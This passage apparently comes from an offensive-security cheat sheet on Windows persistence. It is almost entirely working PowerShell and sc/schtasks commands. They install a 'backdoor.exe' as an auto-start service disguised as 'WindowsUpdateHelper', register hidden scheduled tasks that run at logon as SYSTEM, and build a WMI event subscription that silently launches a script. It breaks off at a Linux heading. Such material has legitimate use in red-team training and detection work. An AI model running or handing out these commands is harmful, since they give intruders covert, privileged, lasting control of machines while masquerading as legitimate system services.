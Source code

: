 #### Service Installation
```powershell
# Create service
sc create "WindowsUpdateHelper" binPath= "C:\Windows\System32\backdoor.exe" start= auto

# Alternative using PowerShell
New-Service -Name "SystemMonitor" -BinaryPathName "C:\Windows\System32\backdoor.exe" -StartupType Automatic -Description "System monitoring service"

# Enable service
sc config "WindowsUpdateHelper" start= auto
sc start "WindowsUpdateHelper"
```

### Scheduled Tasks
```powershell
# Create scheduled task
schtasks /create /tn "SystemCleanup" /tr "powershell.exe -WindowStyle Hidden -File C:\temp\cleanup.ps1" /sc onlogon /ru SYSTEM

# Advanced task with XML
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -File C:\temp\monitor.ps1"
$trigger = New-ScheduledTaskTrigger -AtLogOn
$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -TaskName "UserProfileSync" -Action $action -Trigger $trigger -Settings $settings -RunLevel Highest
```

### WMI Event Subscription
```powershell
# Create WMI event filter
$FilterArgs = @{name='SystemStartup'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"}
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Arguments $FilterArgs

# Create WMI event consumer  
$ConsumerArgs = @{name='SystemStartupConsumer'; CommandLineTemplate="powershell.exe -WindowStyle Hidden -File C:\temp\startup.ps1"}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Arguments $ConsumerArgs

# Bind filter to consumer
$FilterToConsumerArgs = @{Filter = [Ref] $Filter; Consumer = [Ref] $Consumer}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Arguments $FilterToConsumerArgs
```

## Linux Persistence Techniques
